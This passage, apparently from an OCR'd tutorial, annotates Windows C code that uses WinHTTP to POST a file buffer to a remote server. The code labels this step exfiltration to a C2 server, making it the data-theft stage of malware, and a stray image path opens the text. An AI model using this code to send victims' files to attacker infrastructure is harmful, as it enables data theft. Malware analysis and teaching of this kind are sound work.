 1. `hSession`: session handle from `WinHttpOpen`.
2. `pwszServerName`: `urlComp.lpszHostName`, wide-char host string.
3. `nServerPort`: `port`, determined above.
4. `dwReserved`: `0`, must be zero.



- Returns a connection handle `hConnect`.

```
HINTERNET hRequest = WinHttpOpenRequest(
            hConnect,
            L"POST",
            urlComp.lpszUrlPath,
            NULL,
            WINHTTP_NO_REFERER,
            WINHTTP_DEFAULT_ACCEPT_TYPES,
            isHttps ? WINHTTP_FLAG_SECURE : 0);
```

`WinHttpOpenRequest`:

1. `hConnect`: connection handle.
2. `pwszVerb`: `L"POST"`, HTTP method.
3. `pwszObjectName`: `urlComp.lpszUrlPath`, wide-char path (e.g. `L"/upload"` or `L"/"`).
4. `pwszVersion`: `NULL`, default HTTP version.
5. `pwszReferrer`: `WINHTTP_NO_REFERER`, omit Referer header.
6. `pwszAcceptTypes`: `WINHTTP_DEFAULT_ACCEPT_TYPES`, default Accept header.
7. `dwFlags`: `isHttps ? WINHTTP_FLAG_SECURE : 0`. If HTTPS, set secure flag to use SSL/TLS.



- Returns a request handle `hRequest`.

```
const wchar_t hdrs[] = L"Content-Type: application/octet-stream\r\n";
        DWORD hdrLen = (DWORD)wcslen(hdrs);
```

Prepare HTTP headers:

- `Content-Type: application/octet-stream`: indicates binary data in the body.
- Note: WinHTTP will automatically add `Content-Length` header if body is provided to `WinHttpSendRequest`.
- `hdrLen`: number of characters in `hdrs`, excluding null terminator.

```
if (!WinHttpSendRequest(
                hRequest,
                hdrs,
                hdrLen,
                fullBuffer,
                fileSize,
                fileSize,
                0)) {
            fprintf(stderr, "[-] WinHttpSendRequest failed: %u\n", GetLastError());
        } else if (!WinHttpReceiveResponse(hRequest, NULL)) {
            fprintf(stderr, "[-] WinHttpReceiveResponse failed: %lu\n", GetLastError());
        } else {
            printf("[+] Exfiltration complete—C2 responded.\n");
            bResult = TRUE;
        }
```
